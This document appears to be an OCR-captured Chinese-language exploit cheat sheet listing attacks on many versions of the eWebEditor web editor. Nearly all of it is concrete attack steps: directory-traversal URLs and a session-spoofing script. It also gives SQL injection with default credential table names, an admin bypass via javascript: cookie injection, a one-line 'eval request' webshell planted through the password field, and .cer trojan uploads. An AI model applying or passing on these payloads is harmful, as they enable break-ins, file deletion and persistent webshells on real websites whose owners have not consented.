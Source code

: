 	脆弱描述：
	ewebeditor/admin_uploadfile.asp
	admin/upload.asp
	过滤不严，造成遍历目录漏洞
	攻击利用:
	第一种:ewebeditor/admin_uploadfile.asp?id=14
	在id=14后面添加&dir=..
	再加 &dir=../..
	&dir=http://www.xxxx.com/../.. 看到整个网站文件了
	第二种: ewebeditor/admin/upload.asp?id=16&d_viewmode=&dir =./..
	eWebEditor 5.2 列目录漏洞
	脆弱描述：
	ewebeditor/asp/browse.asp
	过滤不严，造成遍历目录漏洞
	攻击利用：
	http://www.xxxx.com/ewebeditor/asp/browse.asp?style=standard650&dir=…././/..
	利用eWebEditor session欺骗漏洞,进入后台
	脆弱描述：
	漏洞文件:Admin_Private.asp
	只判断了session，没有判断cookies和路径的验证问题。
	攻击利用:
	新建一个test.asp内容如下:
	<%Session(“eWebEditor_User”) = “11111111”%>
	访问test.asp，再访问后台任何文件，for example:Admin_Default.asp
	eWebEditor asp版 2.1.6 上传漏洞
	攻击利用:（请修改action字段为指定网址）
	ewebeditor asp版2.1.6上传漏洞利用程序.html
	eWebEditor 2.7.0 注入漏洞
	攻击利用:
	http://www.xxxx.com/ewebeditor/ewebeditor.asp?id=article_content&style=full_v200
	默认表名：eWebEditor_System默认列名：sys_UserName、sys_UserPass，然后利用nbsi进行猜解.
	eWebEditor2.8.0最终版删除任意文件漏洞
	脆弱描述：
	此漏洞存在于Example\NewsSystem目录下的delete.asp文件中，这是ewebeditor的测试页面，无须登陆可以直接进入。
	攻击利用: (请修改action字段为指定网址)
	Del Files.html
	eWebEditor PHP/ASP 后台通杀漏洞
	影响版本: PHP ≥ 3.0~3.8与asp 2.8版也通用，或许低版本也可以，有待测试。
	攻击利用:
	进入后台/eWebEditor/admin/login.php,随便输入一个用户和密码,会提示出错了.
	这时候你清空浏览器的url,然后输入javascript:alert(document.cookie=”adminuser=”+escape(“admin”));
	javascript:alert(document.cookie=”adminpass=”+escape(“admin”));
	javascript:alert(document.cookie=”admindj=”+escape(“1”));而后三次回车,清空浏览器的URL,现在输入一些平常访问不到的文件如../ewebeditor/admin/default.php，就会直接进去。
	eWebEditor for php任意文件上传漏洞
	影响版本:ewebeditor php v3.8 or older version
	脆弱描述:
	此版本将所有的风格配置信息保存为一个数组$aStyle,在php.ini配置register_global为on的情况下我们可以任意添加自己喜欢的风格，并定义上传类型。
	攻击利用:
	phpupload.html
	eWebEditor JSP版漏洞
	大同小异。
	eWebEditor 2.8 商业版插一句话木马
	影响版本:=>2.8 商业版
	攻击利用:
	登陆后台，点击修改密码—-新密码设置为 1":eval request("h")’
	设置成功后，访问asp/config.asp文件即可，一句话木马被写入到这个文件里面了.注意：可能因为转载的关系，代码会变掉，最好本地调试好代码再提交。
	eWebEditorNet upload.aspx 上传漏洞(WebEditorNet)
	脆弱描述：
	WebEditorNet 主要是一个upload.aspx文件存在上传漏洞。
	攻击利用:
	默认上传地址：/ewebeditornet/upload.aspx
	可以直接上传一个cer的木马
	如果不能上传则在浏览器地址栏中输入javascript:lbtnUpload.click();